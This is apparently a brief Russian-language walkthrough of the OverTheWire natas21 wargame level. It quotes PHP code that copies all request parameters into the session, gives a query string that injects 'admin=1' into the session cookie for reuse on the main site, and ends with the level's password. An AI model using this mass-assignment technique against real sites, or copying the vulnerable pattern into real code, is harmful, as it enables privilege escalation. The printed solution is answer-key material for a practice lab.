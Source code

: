 решение таска строится на предположении что куки с 
http://natas21.natas.labs.overthewire.org
и
http://natas21-experimenter.natas.labs.overthewire.org/index.php
одинаковые
на первом сайте задача состоит в подсовывании куки с нужными полями
тогда как на втором - формирование этой куки
интерес представляет следующий кусок кода:
```php
...
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
...
```
как итог можно подсунуть
```url_params
?debug=true&admin=1&submit=lokkek
```
и получаем куку с admin=1 (что нам и нужно)
подсовываем в первый сайт
получаем результат

d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz
